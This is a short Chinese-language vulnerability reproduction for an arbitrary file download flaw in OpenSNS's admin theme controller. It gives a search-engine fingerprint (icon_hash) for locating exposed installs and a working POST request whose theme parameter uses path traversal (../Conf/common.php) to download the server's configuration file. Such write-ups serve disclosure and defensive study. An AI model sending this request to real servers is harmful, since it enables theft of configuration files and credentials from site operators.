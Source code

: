 # 

# OpenSNS ThemeController.class.php 后台任意文件下载漏洞

## 漏洞描述

OpenSNS ThemeController.class.php文件中存在文件下载，其中过滤不足导致可以下载服务器任意文件

## 漏洞影响

```
OpenSNS
```

## 网络测绘

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![image-20220518154815562](./images/202205181548621.png)

存在漏洞的文件为 `Application/Admin/Model/ThemeController.class.php`

![image-20220518154826306](./images/202205181548388.png)

其中 theme参数为用户可控参数，根据函数流程可以发现存在的文件将会打包为 zip文件提供下载

![image-20220518154838931](./images/202205181548023.png)

构造请求

```
POST /admin.php?s=/theme/packageDownload

theme=../Conf/common.php
```

![image-20220518154851785](./images/202205181548889.png)
